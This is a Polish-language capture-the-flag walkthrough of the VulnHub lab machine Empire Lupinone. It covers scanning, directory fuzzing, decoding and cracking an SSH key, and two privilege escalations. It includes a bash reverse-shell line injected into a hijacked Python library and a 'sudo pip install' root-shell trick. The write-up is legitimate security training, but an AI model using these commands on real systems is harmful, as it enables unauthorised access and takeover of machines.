# **CTF - Empire Lupinone**

**Autor**: adi7312

**Poziom Trudności**: Średni

**Link do maszyny wirtualnej**: [Empire Breakout II](https://www.vulnhub.com/entry/empire-lupinone,750/).

- [**CTF - Empire Lupinone**](#ctf---empire-lupinone)
  - [**1. Skanowanie sieci**](#1-skanowanie-sieci)
  - [**2. Skanowanie usług hosta oraz skanowanie podatności**](#2-skanowanie-usług-hosta-oraz-skanowanie-podatności)
  - [**3. Detekcja podatności**](#3-detekcja-podatności)
  - [**4. Faza eksploitacji**](#4-faza-eksploitacji)
  - [**5. Eskalacja uprawnień (icex64 -\> arsene)**](#5-eskalacja-uprawnień-icex64---arsene)
  - [**6. Eskalacja uprawnień (arsene -\> root)**](#6-eskalacja-uprawnień-arsene---root)

## **1. Skanowanie sieci**

**Cel:** Detekcja adresu IP maszyny **Empire Lupinone**

Sprawdzamy adres naszej sieci oraz maskę poleceniem `ifconfig`. Nasz adres sieci to 192.168.138.0 a maska to 255.255.255.0. Dokonujemy teraz skanowania sieci w celu poznania adresu IP maszyny **Empire Lupinone**. Używamy polecenia:

    sudo netdiscover -r 192.168.138.0/24



Adres IP podatnej maszyny to 192.168.138.131

## **2. Skanowanie usług hosta oraz skanowanie podatności**

**Cel:** Enumeracja wersji usług hosta, detekcja systemu operacyjnego oraz przeprowadzenie skanowania podatności.

W celu enumeracji usług hosta oraz detekcji OS wpisujemy polecenie:

    sudo nmap -sV -O 192.168.138.131



Nmap wykrył dwie usługi: *ssh* oraz *http*, natomiast wykryty system operacyjny to *Linux 4.15-5.6*.

Dokonujemy teraz skanowania podatności, użyjemy do tego narzędzia *OpenVas*. Konfigurujemy nowy *target* i nowy *task*, i uruchamiamy *task*.



Niestety OpenVas za wiele nie wykrył. Będziemy musieli więc pogrzebać trochę w tej maszynie.

## **3. Detekcja podatności**

Sama strona 192.168.138.131 pokazuje jedynie obrazek, potwierdza to jednak to że usługa Apache jest uruchumiona, możemy zatem dokonać enumeracji, w tym celu skorzystamy z narzędzia *gobuster*. Wpisujemy zatem polecenie:

    gobuster dir --url 192.168.138.131 -w /usr/share/wordlists/dirb/common.txt



Przyjrzyjmy się bliżej plikowi robots.txt, w przeglądarce wpisujemy `192.168.138.131/robots.txt` - plik robots.txt wskazuje jakie strony nie powinny być pokazywane w np. wyszukiwarce. 



Jak widzimy serwer nie pozwala na pokazywanie strony z zawartością katalogu *~myfiles*.

Jednak gdy przejdziemy do katalogu *~myfiles* wyskoczy nam błąd. W samym kodzie źródłowym strony możemy zobaczyć komentarz *You can do it, keep trying*.



Jak możemy zauważyć *gobuster* nie znalazł wcześniej folderu ~myfiles, prawdopodobnie wynika to z tego, że słownik który zawierał powszechne sformułowania nie zawierał znaku *~*, być może jest więcej takich stron gdzie mamy tyldę na początku. Zatem skorzystamy teraz z techniki *fuzzing* oraz narzędzia DirBuster, konfiguracja programu znajduje się poniżej.



Po uruchomieniu możemy zauważyć, że istnieje folder o nazwie *~secret*.



Po wpisaniu adresu `192.168.138.131/~secret` ukazuje nam się taka strona.



Zatem w tym folderze najprawdopodobniej znajduje się prywatny klucz SSH, ponowanie uruchamiamy DirBustera w celu znalezienia tego pliku, tym razem z poniższą konfiguracją:



Po chwili otrzymujemy dosyć długi output, uwagę przykuwa plik *.mysecret.txt*



Sama zawartośc tego pliku wygląda następująco:



Nie jest to jednak sam klucz prywatny SSH gdyż brakuje pewnego charakterystycznego zakończenia, mamy więc pewnie tutaj do czynienia z jakimś kodowaniem. Cipher identifier wskazał że mamy tu do czynienia najprawodpodobniej z Base58. Skorzystamy z strony do dekodowania Base58.



Otrzymaliśmy klucz prywatny SSH. Output zapiszemy sobie do pliku *sshkey*.

## **4. Faza eksploitacji**

Teraz będziemy korzystać z skryptu *ssh2john*, który zamieny nasz klucz prywatny na format czytelny dla narzedzia *John The Ripper*.

(**Ważne jest aby wykonać tę operację jako root oraz należy skorzystać z pythona wersji 2.7**)

    /usr/share/john/ssh2john.py sshkey > sshkey.john

Następnie użyjemy poniższego polecenia w celu pozyskania *passphrase*.

    john --wordlist=/usr/share/wordlists/fasttrack.txt sshkey.john



Otrzymaliśmy *passphrase* (hasło), które teraz wykorzystamy logując się przez ssh do naszego serwera 192.168.138.131. W tym celu korzystamy z polecenia:

    ssh -i sshkey icex64@192.168.138.131

Wpisujemy zdobyty wcześniej *passphrase* i otrzymujemy dostęp do maszny Lupinone.



Po wpisaniu polecenia `ls` widzimy plik user.txt który zawiera pierwszą flagę.



## **5. Eskalacja uprawnień (icex64 -> arsene)**

Uruchamiamy polecenie `sudo -l` - polecenie to pozwala sprawdzić, jakie polecenia i komendy użytkownik może wykonać z uprawnieniami superużytkownika



Jak widzimy użytkownik icex64 może uruchomić pewien skrypt jako superużytkownik, zatem będziemy używać tzw. ***Python Library Hijacking***. Sam skrpyt niestety nie jest kompletny. Poszukajmy zatem plików które mają pełne uprawnienienia. Korzystamy z polecenia:

    find / -type f -perm -ug=rwx 2>/dev/null

Pełne uprawnienia posiada skrypt *webbrowser.py*, który jest importowany w skrypcie heist.py, ta słabość pozwoli nam na dokonanie eskalacji uprawnień, skorzystamy zatem teraz z *revers shell*. Dokonujemy zatem modyfikacji *webbrowser.py*, wpisujemy polecenie:

    

     os.system(“/bin/bash -c `+'/bin/bash -i >& /dev/tcp/192.168.138.130/1234 0>&1'”)

W drugim terminalu uruchamiamy polecenie które będzie nasłuchiwało aktywność na porcie 1234:

    nc -lvp 1234

Następnie uruchamiamy skrypt *heist.py*:

    sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py

## **6. Eskalacja uprawnień (arsene -> root)**
W oknie gdzie nasłuchiwaliśmy port 1234 wywołała się powłoka bash hosta *LupinOne*, tym razem jesteśmy użytkownikiem *arsene*. Wpisujemy polecenie `sudo -l`, jak widać możemy jako superużytkownik (*root*) wykonać polecenie *pip*. 



W celu dokonania eskalacji uprawnień musimy wykonać szereg poleceń:

    TF=$(mktemp -d)

    echo “import os; os.execl(‘/bin/sh’, ‘sh’, ‘-c’, ‘sh <$(tty) >$(tty) 2>$(tty)’)” > $TF/setup.py

    sudo pip install $TF

Ostatencznie otrzymujemy roota, możemy to potwierdzić wpisując `id`, następnie przechodzimy do */root* wpisujemy `ls` i otwieramy ostatnią flagę.



